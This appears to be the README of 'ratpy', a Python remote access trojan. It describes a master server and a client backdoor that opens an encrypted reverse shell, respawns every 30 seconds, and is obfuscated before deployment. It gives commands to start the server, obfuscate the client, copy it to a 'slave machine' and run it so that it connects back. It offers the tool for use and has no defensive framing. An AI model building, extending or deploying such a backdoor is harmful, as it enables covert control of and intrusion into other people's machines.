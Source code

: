 # ratpy
#### another snake friendly rat
<p align="left">
<img src="imgs/ratpy.png" width="240" height="160">
</p>

#### backbone branch - simple backdoor without tools

## Architecture
### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
### _________________________________________________________________________

### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
* obfuscator - obfuscator for client side RAT deployement
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
### _________________________________________________________________________

## Adding extensions
* to be written in a new future

## Development to v1.0
* [ ] clean up code, refactor and move args.py to interface
* [ ] write client obfuscator
* [ ] open master branch with binary tools for remote deployment
* [ ] document adding extensions

